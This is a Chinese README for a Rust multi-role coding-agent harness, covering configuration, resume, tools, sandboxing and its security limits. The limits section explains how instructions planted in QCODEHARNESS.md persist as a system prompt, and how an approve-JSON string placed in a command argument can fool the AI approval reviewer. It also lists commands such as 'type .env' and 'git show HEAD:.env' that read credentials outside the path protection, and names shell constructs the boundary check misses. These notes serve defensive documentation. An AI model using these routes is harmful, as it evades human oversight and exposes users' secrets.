- **策略层升级与执行层硬拒绝用了不同口径的判据**。越界升级判据 `write_escape_suspect` 没有根可看，把所有盘符绝对路径都算嫌疑；硬拒绝判据 `write_escape_beyond` 知道根在哪。两道防线跑在同一份结构化解析结果上，落差只剩"有没有 workspace 根"这一个参数，但语义未变。后果有二：一是**真越界**命令经人批准后仍被工具层拒绝——"用户按 y 放行一条越界命令"的结果是审批通过、执行被拒；二是**根内的绝对路径**会被越界升级检查判成一次多余的审批（点完 y 照样执行）。两者都是有意取舍：升级判据保持宽松口径（多问一次的代价可承受），硬拒绝判据必须准（拒绝的代价是任务跑不动）。表现上像多余的审批点击，代价由使用者承担——遇到时请把 workspace 根换到目标目录，而不是反复放行。
- **受保护路径只覆盖 workspace 内的相对路径**。`WorkspacePath` 先拒越界再查保护，所以 `../../.git/config` 命中的是越界拒绝而不是保护拒绝（都是拒，理由不同）。workspace 之外的路径由越界检查负责，与保护名单无关。同理，`run_command` 与 `git_*` 不经过 `WorkspacePath`——`type .env`、`git show HEAD:.env` 这类读法不在保护范围内，靠的是策略与审批。
- **链接解析只在文件类工具这一侧**。junction / 符号链接的复查放在 infrastructure 层（`resolve_in`）：领域层不许碰文件系统，`canonicalize` 只能在那里调。因此这条防线对 `run_command`、`git_*` 和 MCP 工具无效——它们本就不经过 `WorkspacePath`（见上一条）。反过来，解析失败（目标不存在、盘符不对）时不追加拒绝，否则新建文件会被挡住。
- **`search_text` 也读不到凭据文件**：它按跳过名单遍历，`.env`/`.env.*` 整份跳过（大小写不敏感）。`read_file` 拒了 `.env`，但搜索若不跳过，就能把凭据行连同行号打印出来，同一份秘密换条路就能读到。`.gitignore` 感知**不放松**这条：凭据保护判的是文件名本身，与 ignore 状态无关。
- **`.gitignore` 只影响"搜什么"，不影响"能不能读"**。`read_file` 读一个被 ignore 的文件仍然允许——ignore 状态是给全文翻找降噪的，不是又一层读权限闸门。实现上用 `ignore` crate（ripgrep 自己用的那套），并额外显式跳过 `.git`/`target`/`node_modules`/`.qcodeharness`——`.git` 本身不受 gitignore 规则管，`target` 是否被 ignore 取决于项目有没有写那条规则，不能赌。
- **`search_text` 的正则模式是线性时间引擎**。用 `regex` crate 而不是 `fancy-regex`：后者支持回溯引用，理论上可被构造出指数级的输入（ReDoS），搜索的输入来自模型而模型会被提示注入影响。`regex` crate 不回溯，最坏情况是线性的，代价是 `\d` 之类的高级特性不支持。
- **`apply_patch` 改名阶段失败不回滚**。前半程（内容计算、路径校验、写临时文件）失败时工作区一个字节都没变；最后的"临时文件改名成目标文件"这一步失败时，**已改的保留、不回滚**，结果里逐个列出已改与未改的文件。理由：回滚本身也可能失败（磁盘满、文件被占用），"部分成功 + 如实报告"比"回滚失败导致状态更乱"诚实。删除失败同样只报告不阻断。
- **推理档位会断前缀缓存**。档位改写 wire 上渲染出来的指令，前缀变了缓存就命不中。同一个角色内档位恒定即可保住该角色自己的缓存；角色切换时缓存本来就断（系统提示词不同），与档位无关。
- **`path_prefix` 只作用于路径参数**（`path`），`command_prefix` 只作用于 `command` 参数；工具用了别的参数名时该条件不成立——拼写错误的字段名在加载时报错，拼写错误的**参数名**不会（deny 会 fail-closed，allow 会退化成不命中）。
- **项目指令是一条被低估的 prompt 注入面**，而且是这些机制里唯一"全部载荷都是不可信文本"的一条。根位置 `QCODEHARNESS.md` **不在**受保护名单里，agent 自己能写：只要诱导 Coder 把一段藏指令的文本写进那个文件，一次性注入就固化成"此后每次运行、每个角色都生效"的系统提示词，而注入段的标题还声明它优先于通用规则。启动时只打印路径与字节数，不展示内容、不要求确认。次级位置 `.qcodeharness/instructions.md` 在受保护路径内、模型改不动，但根位置改得动——这是有意的取舍（使用者要能随时编辑它），代价由使用者承担。缓解：发现注入后删掉根文件；但已存快照里的提示词不会因此更新，`--resume` 的会话仍按旧提示词跑，唯一的净化方式是丢弃会话重跑。
- **AI 审批审查员（`--ai-review`）不是安全机制**。它用同一个模型判断风险，审查提示词可以被它自己读到的内容影响（提示注入）——把 `{"decision":"approve"}` 写进 `run_command` 的 `command` 参数里，审查员极可能照办并输出放行 JSON，全程无人过问。因此它只减少人工打断次数，不替代人工判断；任何解析失败、超时、空回复、或它自己选 `human`，都**退回交互式闸门问人**——fail-closed，没有"默认放行"这条路。审查自身的模型调用不产生证据事件，放行在审计里与"人按 y"同形（拒绝带 `AI 审查员拒绝了` 前缀，放行不带）。

## 9. 项目资料

- [OpenAI Codex（Rust 实现参考）](https://github.com/openai/codex)
- [Rig（Rust LLM / Agent 生态）](https://rig.rs/)
- [Model Context Protocol](https://modelcontextprotocol.io/)

建议将项目架构展示页保存为 `docs/architecture.html`，与本 README 一同维护。以下运行方式对应仓库当前版本；构建、配置、示例任务和当前能力边界均以代码、测试和运行记录为准。

## 9.5 运行方式

### 环境变量

复制 `.env.example` 为 `.env` 并填入真实值（PowerShell：`Copy-Item .env.example .env`；bash / zsh：`cp .env.example .env`）：

| 变量 | 必需 | 说明 |
|------|------|------|
| `LLM_BASE_URL` | 是 | OpenAI 兼容服务地址，请求发往 `{LLM_BASE_URL}/chat/completions` |
| `LLM_API_KEY` | 是 | API Key |
| `LLM_MODEL` | 是 | 模型名称，同时是**默认模型**：某个角色配了专属模型时用那个，没配的用它 |
| `LLM_MODEL_PLANNER` / `LLM_MODEL_CODER` / `LLM_MODEL_TESTER` / `LLM_MODEL_REVIEWER` | 否 | 按角色指定模型；没设的角色用 `LLM_MODEL` |
| `LLM_EFFORT_PLANNER` / `LLM_EFFORT_CODER` / `LLM_EFFORT_TESTER` / `LLM_EFFORT_REVIEWER` | 否 | 按角色指定推理档位（`minimal`/`low`/`medium`/`high`）；写错会让进程启动失败（静默失效比报错更难查） |
| `LLM_VERBOSITY_PLANNER` / `LLM_VERBOSITY_CODER` / `LLM_VERBOSITY_TESTER` / `LLM_VERBOSITY_REVIEWER` | 否 | 按角色指定输出详略档位（`low`/`medium`/`high`） |
| `LLM_MAX_TURNS` | 否 | ReAct 循环最大轮数，默认 20 |
| `QCH_POLICY` | 否 | 策略配置文件路径，缺省用内置默认策略 |
| `QCH_AUTO_APPROVE` | 否 | 设为 `1` 跳过人工审批，供 CI 使用 |
| `QCH_MAX_WALL_CLOCK` | 否 | 墙钟上限（秒）：编排模式下是整个任务的上限，`--resume` 时是本次恢复运行的上限；超时返回可区分的错误，不设置则不限时 |
| `QCH_SUMMARIZE_MIN_DROPPED` | 否 | 被裁历史累积到多少轮才花一次 LLM 调用生成摘要；不设置则只用占位说明 |
| `QCH_MCP_CONFIG` | 否 | MCP 配置文件路径（TOML），配置了才连接外部 MCP Server；缺省时 MCP 关闭 |

单次模型调用有 300 秒的硬时限（内置默认，暂不可配置）：连接挂死时中止该次调用并报可区分的错误，任务停在可恢复的断点，用 `--resume` 续跑即可。

### 按角色分配模型与档位

四个角色（规划/编码/测试/评审）可以各配各的模型、推理档位与输出档位。规划要强推理、测试跑命令读输出就行——用同一个模型是浪费。

```powershell
$env:LLM_MODEL_CODER   = "qwen3-coder"    # 编码者换模型
$env:LLM_EFFORT_TESTER = "low"            # 测试者用低推理档
$env:LLM_VERBOSITY_CODER = "low"          # 编码者少说废话
```

Linux 与 macOS 上用 `export`：

```bash
export LLM_MODEL_CODER="qwen3-coder"      # 编码者换模型
export LLM_EFFORT_TESTER="low"            # 测试者用低推理档
export LLM_VERBOSITY_CODER="low"          # 编码者少说废话
```

**模型与档位只影响"用哪个模型"，不影响"能干什么"。** 角色工具白名单是硬边界：给测试者配一个更强的模型，不等于让它能改文件。`apply_patch` 仍不在任何受限角色的白名单里。

**没配任何角色变量时**：请求里不带 `model` 字段，由 provider 用它自己的默认模型；档位由 provider 取默认。一个角色都没配时不会往请求里塞任何东西。

**档位会断前缀缓存。** 推理档位会改写 wire 上渲染出来的指令，前缀变了缓存就命不中。同一个角色内档位保持恒定就能保住它自己的缓存；角色切换时缓存本来就会断（各角色系统提示词不同）。

**provider 不认就降级。** 推理与输出档位都走 rig 的 `OnUnsupported::Ignore`：多数 OpenAI 之外的 provider 不认 `verbosity`，丢掉这个字段继续跑——让整个 agent 不可用比少一个字段糟糕得多。

### 上下文与预算

长任务的历史不会无限发给模型：`AgentRunner` 按 **token 预算**裁剪请求历史——历史估算超过预算（默认 16000 token）就从最旧的完整轮次开始整体省略，原位插入占位说明；最初的用户任务与最近 2 轮永远保留（下限保护：预算再紧，模型也得看得见自己刚做过什么）。token 按**字符估算**：CJK 字符 1:1、其余约 4 字符折 1 token——这是预算控制用的估算口径，不是计费口径，估算够用是因为预算只需要挡住量级。裁剪只改"发给模型时怎么看"，会话本身和证据文件保持完整；每次裁剪留 `ContextCompacted` 证据（裁了哪些轮）和 `ContextBudgeted` 证据（省了多少 token）各一条，控制台同步播报 `[上下文]` 行。

**占位说明后面跟着证据台账：**被裁轮次读过的文件、写过的文件、跑过的命令、没执行完的调用，由代码从会话历史里重新拼出，以台账形式附在占位说明之后——模型据此知道该用 `search_text` / `read_file` 找什么，不用凭记忆猜。台账由代码拼而不是让模型复述：调用记录是事实，模型的记忆是转述；同一条账也进 `--report`，人可以核对。只读的 `list_dir` / `search_text` / `git_status` / `git_diff` 不进台账（目录结构和搜索词不是"动过工作区"的证据），`read_files` 批量读按文件逐条进，方便按路径去重。

预算有三个维度，任一用尽即停，错误可区分：

| 维度 | 默认 | 用尽时 |
|------|------|--------|
| 轮数 | `LLM_MAX_TURNS`（20） | `BudgetExhausted`，提示调大轮数 |
| 墙钟 | 不限时（`QCH_MAX_WALL_CLOCK` 可设） | `WallClockExhausted`，带实际耗时与上限 |
| 取消 | 外部调用 `cancel_handle()` | `Cancelled`，历史完整保留 |

超时与取消都只在"准备问模型"之前生效：正在执行的工具轮次允许跑完，已花出去的 token 不废在半途。

### 会话恢复

运行中的每个保存点（每轮提交后、停在审批闸门前、任务完成、出错前）都会把完整可恢复状态原子写入 `.qcodeharness/snapshots/<会话ID>.json`（先写临时文件刷盘再改名，半途崩溃不会留下截断的快照）。快照带格式版本号，读到不认识的版本直接拒绝而不是猜着兼容；历史在重建时逐条校验配对不变量，损坏的快照变成显式错误。

**快照格式版本当前为 3**。旧版本的快照恢复时会被明确拒绝并报出版本差异，不做静默兼容——旧会话无法用 `--resume` 续跑，涉及旧会话的任务请重新执行。拒绝是刻意的：拿旧快照猜着跑比直接说"不支持"危险。

```bash
cargo run -- --list-sessions              # 列出可恢复的会话（ID、轮数、停在哪）
cargo run -- --resume <会话ID>            # 从断点继续，沿用快照里的原任务与系统提示词
```

恢复语义：半轮状态（工具执行到一半）恢复后从下一条调用继续，已跑完的观察不重跑；停在审批闸门的会话恢复后把同一个请求重新递给闸门；取消标记不跨恢复传递——恢复是一次新的"继续"意图。快照保存失败只打 stderr 警告，任务继续。恢复的运行接着计算墙钟预算（快照里的已耗时长是基数）。

拒收旧快照的理由：2 号及更早的快照只描述一次 ReAct 循环、没有任务上下文，恢复时无法回答"这是整个任务的哪一步"；1 号快照连每一步的角色信息也没有。

### 任务级恢复（--resume-task）

会话快照恢复的是一次 ReAct 循环；**任务快照**（`.qcodeharness/tasks/<任务ID>.json`）恢复的是整个任务：原目标、工作流、步骤账（每步的角色与起止轮次）、已完成步骤的结论、消耗账与会话 ID。每个会话保存点都会顺带落任务快照，预算耗尽、出错停下的任务用 `--resume-task <任务ID>` 从**完整步骤边界**继续：

```bash
cargo run -- --list-sessions              # 会话快照：ReAct 循环断点
cargo run -- --resume <会话ID>            # 从轮次断点继续（半轮状态）
cargo run -- --resume-task <任务ID>       # 从任务快照继续：已完成步骤不重跑
cargo run -- --force-worktree --resume-task <任务ID>   # 工作区被动过仍要恢复（显式担责）
```

恢复的语义与边界：

- **已完成的步骤不重做**：每步结论以一条用户消息交回模型（`[已完成第 N 步·角色] 结论：…`），从第一个未完成的步骤接着跑；轮数与墙钟从快照接着算，不重置。结论走用户消息而不是摘要，是因为裁剪丢轮次不丢用户消息——长任务恰恰是历史被裁得最狠的场景。
- **半轮状态照旧由会话快照兜底**：任务恢复先载会话快照，停在工具调用半途的轮次按会话恢复语义处理（重放询问，不静默重跑）。
- **工作区被动过就拒绝恢复**：任务快照记录 workspace 的文件清单（跳过 `.git`、`.qcodeharness`、`target`，超过 4 MiB 的文件只记大小不算指纹），恢复时逐一比对——fixture 已被人改过的任务不会"接着错的地方继续跑"。清单一致是必要条件而非充分条件：读不到的文件跳过只会让检查变松，不会把真改动误报成一致。确要继续需显式 `--force-worktree`。
- **审批重入重新问人**：恢复时停在审批闸门的请求重新递给闸门，并明确标注"这个请求之前问过、那次没答复"（证据留 `ApprovalReasked`）；AI 审查员对这类请求直接转人工。`a` / `p` 信任照常可用，但重入是一次新的确认，不是上次的延续。
- **快照版本不符明确拒绝**：任务快照带独立格式版本号（当前 1，与 `RUN_FORMAT` 分开演进），不认识的版本报出差异，不做静默兼容。

恢复**不承诺**的事：任意时机的崩溃都能无损续跑（保存点之间丢的轮次需要重跑）；跨机器迁移（快照里的路径与会话都是本机的）；任务快照替代证据——审计仍以证据 JSONL 为准。

### 任务编排

任务默认按**工作流模板**拆成有序步骤逐步执行，`--kind` 选择模板（默认 `bug-fix`）：

```bash
cargo run -- "修复 greet 测试失败"                    # 默认走 bug-fix 模板
cargo run -- --kind review "评审最近的改动"
```

| 模板 | `--kind` | 步骤（角色） |
|------|----------|------|
| 修 Bug | `bug-fix` | 定位问题（Planner）→ 最小修改（Coder）→ 测试验证（Tester）→ 汇总与遗留风险（Coder） |
| 加功能 | `feature` | 理解需求（Planner）→ 规划实现（Planner）→ 编写实现（Coder）→ 验证实现（Tester） |
| 代码评审 | `review` | 读 diff → 理解上下文 → 识别风险 → 合并建议（四步全为 Reviewer） |
| 重构 | `refactor` | 行为基线（Tester）→ 分批改造（Coder）→ 回归测试（Tester）→ 对比总结（Reviewer） |

每步按**角色**装配：编排器从角色档案（`AgentProfile`）查出该角色的系统提示词与工具白名单，而不是四个步骤共用一个"全能 Agent"。约束是双重的：提示词明说"不许做"，调用层再按白名单拦一次。每步开始时证据里记一条 `StepStarted`（带角色与该步起始轮次），复盘时谁跑的每一步一目了然。

**一个任务只开一个会话。** 步骤之间不另起 `AgentRunner`，而是在同一个会话里推进一步：换角色、以一条用户消息交代本步（`任务：… 当前步骤（第 N/M 步）：… 完成判据：…`）、把上一步的结论提交进历史。效果：

- **历史跨步延续**：下一步看得见上一步读过的文件和得出的结论，不必把同样的文件再读一遍（步骤说明仍然自包含——它是这一步的指令，不是历史记录的复述）。
- **预算按任务累计**：`LLM_MAX_TURNS` 与 `QCH_MAX_WALL_CLOCK` 都是整个任务的上限。
- **缓存路由键跨步稳定**：请求带 `prompt_cache_key = 会话 ID`，provider 才可能把前面攒下的前缀缓存读回来。每步换键等于每步换一台机器，缓存一次都命不中。
- **证据与快照各一份**：`.qcodeharness/sessions/<会话ID>.jsonl` 记录整个任务，步骤边界由 `StepStarted` 事件标出；`--resume <会话ID>` 续跑的是该会话的 ReAct 循环。

任一步失败则任务标记失败并停止后续步骤，会话 ID 随错误带出（失败步骤的观察也在同一份证据里）。

**角色边界不在"模型看不见"，而在"调不动"。** 工具定义对每一步完全一致（全量注册表）——这是前缀缓存能命中的前提，逐步不同的工具数组会让每一步的缓存全部作废。四个角色的工具表全量可见，白名单靠调用时校验强制生效：`Evaluating` 与 `Dispatching` 两个执行入口都按角色校验（`Dispatching` 也不能省——快照可以直接停在那里，恢复时 `Evaluating` 被整段跳过），越权调用拿到一条指明角色权限的拒绝观察，工具根本不会执行。受保护路径、命令级策略、fail-closed 审批、越界写入必审这四道硬边界一律不动。

单会话编排**没有**放松的边界，逐条列清：

| 边界 | 为什么单会话动不了它 |
|------|----------------------|
| 受保护路径（`.git`/`.env`/`.qcodeharness`） | 校验在每条路径进入工具前发生（`resolve_in`），与会话开几个、历史有多长无关。批量读取同样逐条走这条路 |
| 命令级策略 | 规则匹配按"工具名 + 参数文本"，与轮次号、会话 ID 无关。默认基线也只是四条收窄到命令头的 allow 规则 |
| fail-closed 审批 | 闸门在每条非只读调用前拦一次；会话内信任只在"无复核理由"时有效，越界写入复核每次都问 |
| 越界写入必审 | 升级检查挂在策略放行之后，与编排方式无关 |
| 角色工具白名单 | 调用时校验，见上一段。校验点有两处（`Evaluating` + `Dispatching`） |

单会话有两处必须额外守住的地方，也都有测试：一是快照停在 `Dispatching(越权调用)` 时恢复不能绕过白名单（`Evaluating` 被跳过，所以 `Dispatching` 必须自己查）；二是步骤边界（一条用户消息）必须活过上下文裁剪——裁掉它，模型就不知道自己进行到哪一步了，而那正是最需要这一步信息的长任务。

### 历史摘要

默认的上下文裁剪用占位说明 + 证据台账（见"上下文与预算"）。设置 `QCH_SUMMARIZE_MIN_DROPPED` 后，被裁历史累积到阈值且现有摘要没有覆盖时，会多花一次 LLM 调用把被裁片段压成**按步骤分段的摘要**——每段以"第 N 步"标记开头，只覆盖该步发生的事。模型写漏或写错步骤号由代码校正：漏了的步骤补一段占位说明（"系统没有从模型拿到这一步的摘要"），步骤号来自会话里真实的步骤边界，不是模型自述；**未完成事项不进摘要**——那一份由代码从调用记录单独拼出（证据台账的"未完成的调用"），提示词明确要求模型不要罗列，避免两份说法互相打架。摘要在其旧版本基础上增量合并，挂在会话上只生成一次（随快照持久化），后续请求直接复用——不是每轮重新生成。摘要调用失败自动降级为占位说明，任务不中断；成功留一条 `SummaryGenerated` 证据、失败留一条 `SummaryFailed` 证据，均计入轮数预算；连续失败达到 2 次后本次运行不再重试摘要。开启摘要后，实际模型调用数最多可能比 `LLM_MAX_TURNS` 多 1 次（该轮的摘要调用 + 正式调用）。

### 内置工具

| 工具 | 风险 | 用途 |
|------|------|------|
| `read_file` | 只读 | 读取 workspace 内文本文件；默认最多显示前 400 行（`max_lines` 可调，上限 2000），超长附总行数并提示用 `search_text` 定位 |
| `read_files` | 只读 | 一次读多个文件，按 `paths` 顺序分节返回、每节带路径标题；单个文件失败不影响其他文件，行数上限与 `read_file` 相同 |
| `list_dir` | 只读 | 列出目录内容 |
| `search_text` | 只读 | 递归搜索子串，输出 `路径:行号:内容`；**遵循 `.gitignore`（含嵌套目录，被 ignore 的文件不搜）**；`regex: true` 时按正则匹配；`include`/`exclude` 按扩展名过滤（同时给时 include 优先）；跳过 `.git`/`target`/`node_modules`/`.qcodeharness` 目录与 `.env`/`.env.*` 凭据文件（大小写不敏感，不因 ignore 状态而放松） |
| `git_status` | 只读 | `git status --porcelain`，空输出即工作区干净；workspace 不是 git 仓库根时返回说明，**不会**沿父目录去读上层仓库的状态 |
| `git_diff` | 只读 | `git diff`（`staged: true` 时 `--staged`），输出截断到 4000 字符；workspace 不是 git 仓库根时同样返回说明 |
| `write_file` | 破坏性 | 创建新文件或整体覆盖 |
| `edit_file` | 破坏性 | 查找替换式修改；`old_string` 必须在文件中恰好出现一次，否则拒绝执行 |
| `apply_patch` | 破坏性 | 结构化补丁一次改一处或多处；全部操作要么成功要么一个文件都不改（原子性），中途失败不留半个改动 |
| `run_command` | 破坏性·开放世界 | 在 workspace 根下执行 shell 命令，运行在进程沙箱内（整树内存/进程数受限，超时终止全部后代进程，仅限有进程沙箱的平台）；沙箱创建失败时**拒绝执行**（Windows，fail-closed），平台没有进程沙箱或沙箱未生效时降级执行并在结果开头显式声明。命令文本里出现指向 workspace 外的路径（绝对/UNC/`..`/重定向/`--flag=`）直接拒绝，审批也不能覆盖。超时默认 30s 上限 300s；疑似密钥的环境变量（名字含 key/token/secret/password/credential）不会传入子进程；输出超过 8000 字符截断 |

工具规格与执行入口绑定在同一个注册表里，`read_file` 与 `edit_file` 的分工写在各自描述中：新建或整体重写用 `write_file`，小段修改用 `edit_file`，一次改多处用 `apply_patch`。

**行尾按文件原样保留。** Windows 上 git 默认把文本检出成 CRLF，Linux 与 macOS 上是 LF，同一份代码在两个平台上的磁盘内容逐字节不同。`edit_file` 与 `apply_patch` 比较前把文件内容与模型给出的原文统一成 LF，写回时还原成文件原来的风格：模型给的 `old_string` 用 LF 就行，不必带 `\r`；反过来，一次补丁也不会把整文件换成另一种行尾——那会让 git 里出现满屏与改动无关的 diff。`read_file` 原样返回磁盘内容，模型看到什么就是磁盘上有什么。

**描述之间互相指路。** 模型对工具分工的全部认识来自这几句描述，不会去翻文档——所以"下一步该用哪个"必须写在描述里：`read_file` 指向 `read_files`（已知多个路径时批量读），`list_dir` 接 `read_files`（摸完结构就一次读出），`write_file` 与 `edit_file` 互相点名，读工具与 `edit_file` 都指向 `apply_patch`（要改代码、改多处时用补丁），`apply_patch` 自己指回 `edit_file`（改一处）与 `write_file`（新建/整体重写）。描述各说各话的后果是模型在该用 `read_files` 的时候逐个 `read_file`，那正是这个工具要省掉的往返。这些交叉引用有测试守着，将来改描述改掉了会红。

### 扩展点（自定义模型提供方与工具来源）

核心循环不认具体供应商，也不认工具从哪来：模型提供方实现 `LlmProvider`，
工具来源实现 `ToolSource`，两者都在装配层登记。两个可运行的示例：

```bash
cargo run --example custom-llm-provider   # 自定义 LlmProvider + 固定回复网关
cargo run --example custom-tool-source    # 内置工具与自定义 ToolSource 合并成注册表
```

完整的扩展点清单（模型网关、工具守卫、运行挂点、上下文策略、审批闸门、
证据汇）、每个扩展点该改哪个文件，以及加新行为的判断顺序，见
[docs/architecture.md](docs/architecture.md)。

**明确不做**：不做 cdylib 动态插件装载，不定义通用插件协议，也不提供多前端
事件协议——社区扩展以"依赖本 crate 编译、在装配层接线"的方式接入；需要新
前端时另立协议设计。

### 结构化补丁（`apply_patch`）

一次改多处用补丁，而不是连着调十几次 `edit_file`。格式是 Codex 的 `*** Begin Patch` 风格：

```
*** Begin Patch
*** Update File: src/main.rs
@@ fn main
 fn main() {
-    let x = 1;
+    let x = 2;
 }
*** Add File: src/new.rs
+新文件的内容
*** Delete File: src/old.rs
*** End Patch
```

`Update` 的上下文行必须逐字匹配；定位不到、上下文有歧义都**失败而不是猜**。`Add` 目标已存在失败，`Delete` 目标不存在失败。

**全部操作先验证、后统一写盘。** 所有路径校验与内容计算先做完，一个文件都不碰盘；全部通过才写临时文件，再逐个改名。所以"补丁里一个失败，其余不写"是硬保证，不存在改了一半的状态。

**路径边界与其他工具完全一致。** 每个路径都走 `resolve_in`：越界拒绝、受保护路径拒绝、junction / 符号链接解析后复查——补丁里出现 `.git/config` 一样被拒，且**一个文件都不会被写**。

### 搜索升级

`search_text` 用 `ignore` crate（ripgrep 自己用的那套）遍历，**遵循 `.gitignore`**：workspace 根与嵌套目录的规则都生效，被 ignore 的文件不搜。

- **正则模式**：设 `regex: true` 时 `pattern` 按 Rust 正则解释。默认是区分大小写的子串匹配——绝大多数调用要的就是这个，正则要显式开。用 `regex` crate 而不是 `fancy-regex`：后者支持回溯引用，理论上可被构造出指数级输入（ReDoS），而搜索的输入来自模型、模型会被提示注入影响。`regex` crate 不回溯，最坏情况线性。
- **扩展名过滤**：`include` / `exclude` 两个可选参数，按扩展名筛（如 `["rs"]`）。**同时给时 `include` 优先**：include 是正向、具体的"我要找的"，exclude 是排除噪音；冲突时以更具体的正向选择为准，否则正反两张名单一叠，行为无从解释。
- **输出格式**：`路径:行号:内容`。
- **凭据保护**：`.env` / `.env.*` 整份跳过（大小写不敏感），**不因 ignore 状态而放松**——凭据保护判的是文件名本身。

### 可执行边界

"审批闸门决定能不能跑，沙箱决定跑起来之后最多祸害多少"。这一节讲三件事：命令级的硬拒绝、沙箱创建失败时 fail-closed、每次执行的边界证据。

**命令越界是硬拒绝，不是再问一次。** `run_command` 在 spawn 之前先过 `write_escape_beyond`（判据知道 workspace 根在哪）：命令里出现指向 **workspace 外**的盘符绝对路径、UNC 路径（`\\server`）、`..` 成分，或把输出重定向到 workspace 外、用 `--flag=<外路径>` 指向外面，直接返回拒绝观察，**审批与策略都覆盖不了**。它与"越界写入必审"是两道防线而不是一道：那条把可疑调用升级成"人再决定"，这一条连人都不能放行。**根内的绝对路径照常放行**——模型常写 `type D:\repo\src\main.rs` 这种命令，判据逐组件比较，分隔符不敏感，大小写按当前平台的文件系统语义比较（Windows 与 macOS 不敏感，Linux 敏感）；想跑合法的跨目录操作（`cargo build --target-dir=D:/cache`）就把 workspace 根换到那个目录，或改用 `write_file`。

**判定是结构化 shell 词法，不是整串字符串匹配**。命令先按 `&&` `||` `;` `|` `&` 换行切成有序段，每段解析出程序、参数词元、全部重定向目标（`>` `>>` `1>` `2>` `&>` `<`）与 `--flag=` 的值；越界升级检查与硬拒绝跑在**同一份解析结果**上，差别只有"有没有 workspace 根"这一个参数（落差见"安全边界"）。裁决逐段、逐目标、逐词元：`cargo test && rm D:/outside/x` 的理由点名第 2 段与 `rm`，`echo x > in_root 2> /outside` 的第二个目标同样被查到，`cmd /C "echo x > D:\outside\x"` 这类引号内复合命令对 shell 启动器（cmd/sh/powershell 等）补查一层词元，普通程序引号里的路径文字（`git commit -m "提到 C:\x"`）不做补查，避免把提交说明误判成越界。它仍不是 shell 求值：变量展开（`$OUT`/`%OUT%`）、命令替换（`` `…` ``/`$(…)`）、编码绕过、别名、解释器 `-c` / `-EncodedCommand` 载荷、符号链接与 junction 的物理目标，以及裸 `/` 与单级 POSIX 绝对路径（`/etc`、`/tmp`，为避免把 `/s` `/q` 开关误判成路径）都不在本层——这些必须继续依赖进程沙箱与文件工具的 `resolve_in`。`<<` 只合成一个输入重定向，heredoc 正文仍按普通词元扫描，正文里形似外部绝对路径的文字会被保守拒绝（不解析正文语义）；`--flag=` 只看第一个等号后的值。拒绝理由只点名看见了什么，不宣称覆盖了全部绕过手段。

**Windows 上沙箱创建失败时直接拒绝。** 沙箱（Job Object）在 spawn **之前**创建：创建失败就直接返回拒绝，一个子进程也不会启动，不会出现"杀了父进程、孙进程还在裸跑"。仍允许降级的只有两种：平台本来没实现（Linux、macOS 等，由 `PlatformCapabilities::detect()` 判定，不去匹配错误文本——措辞一改就会把失败误读成降级），以及 `assign_child` 失败（子进程已经起来了，杀它撤不回已发生的副作用）。两种降级都会让模型在结果的第一个字看到"进程沙箱未生效"。spawn 到纳入 Job 之间的窄窗口仍是已知边界（见下）。

**每次真实启动进程（或发给外部 Server）的调用都留一条边界证据。** `AuditEvent::SandboxApplied` 记平台标签（`Windows JobObject` / `Linux` / `macOS` / `其他系统` / `MCP subprocess`）、沙箱是否真的生效、以及这次有没有做越界检查。执行层把边界事实作为进程内字段随 `ToolOutcome` 交给应用层（不写进既有 JSONL 的 `ToolObserved`，旧证据格式不变），应用层只照抄成事件——**不从观察文本或工具名反推"跑没跑、有没有保护"**。参数解析失败、空命令、非 git 仓库、进程启动失败，以及 Windows fail-closed 拒绝，都没有真实执行，不发这条事件；超时与降级执行会带 `active = false` 的事实。`run_command` 的结构化词法检查记 `boundary_checked = true`，`git_status` / `git_diff` 的命令写死、记 false；`mcp__*` 调用标 `MCP subprocess`，其 `active` 如实反映 Server 进程有没有在**握手之前**被纳入 Job（Windows 纳入后为 true，此后它创建的子孙一并受管；非 Windows、拿不到 PID 或纳入失败为 false），`boundary_checked` 恒 false。降级时控制台另打印一行 `[边界] <平台>：本次执行无进程沙箱保护`；`--report` 汇总成"受沙箱保护的执行 / 无沙箱保护的执行"两个计数。

**平台差异按检测结果处理，不写死在各处。** 当前平台由 `domain::platform::Platform::current()` 判定，它给出系统名、跑命令用的 shell（Windows 用 `cmd /C`，其余平台用 POSIX `sh -c`）、文件系统是否默认不区分大小写（Windows 与 macOS 不敏感，Linux 敏感）。上层不再散落 `cfg!(windows)` 分支：路径比较按该口径归一化，`run_command` 给模型看的工具描述按平台生成——有进程沙箱的平台说"整树内存与进程数受限，超时终止全部后代进程"，没有的平台如实说"超时只终止直接子进程，后代进程可能继续运行"，让模型知道自己的后台进程会不会被收掉。测试同理：原先用 `#[cfg(windows)]` 整条门控的用例改成按检测到的能力分支，每个平台都真的跑一遍，不会因为平台不同而静默少测。

**没有"关掉边界"的开关。** 不提供 `--disable-sandbox` 或任何等价配置项：这道边界的存在意义就是"配置写错时它还在"，任何开关都会把机械防线降级成自觉遵守。需要更大权限时正确的做法是把 workspace 根设到目标目录，而不是把边界关掉。

### 吞吐：轮数、缓存与等待

单任务耗时 = 模型往返次数 × 每次往返的延迟。下面按这三个因子分别说明对应的机制，全部记录在证据里、由 `--report` 统计。

**轮数。** 一个任务只开一个会话，下一步看得见上一步的结论，同一个文件不必再读一遍；请求显式带 `parallel_tool_calls`，一轮回复里可以给多个调用；已知路径时用 `read_files` 一次读回全部内容。Harness 仍然一轮执行一条工具调用（审计、审批、沙箱都按"一次一个"假设工作），所以收益在省下的模型往返，不在读取本身。

**缓存。** 请求带 `prompt_cache_retention`（短档）与 `prompt_cache_key = 会话 ID`，provider 才可能把前面攒下的前缀读回来。两个前提：会话 ID 跨步稳定（单会话编排保证），工具定义跨步逐字相同（全量注册表保证）。**不设 `cache_points`**——rig-core 0.45 里只有 Anthropic Messages 编码器读这个字段，OpenAI 兼容 Chat 编码器通篇不碰它，赋值只会让人以为配了缓存断点。provider 不认这些字段时降级为忽略（`OnUnsupported::Ignore`）而不是让 agent 不可用，代价是降级静默，所以网关在第一次调用前用 `check()` 主动查一遍并把结果告诉用户。

`--report` 的 `缓存tok` / `命中率` 两列来自 provider 回报的缓存计数：命中率 = 读回 ÷ 输入，**分母为 0 时显示"—"而不是 0%**——0% 的含义是"有输入但一次都没命中"，与"没有输入可算"正好相反。成本同理，未知显示"未知"而不是 $0。

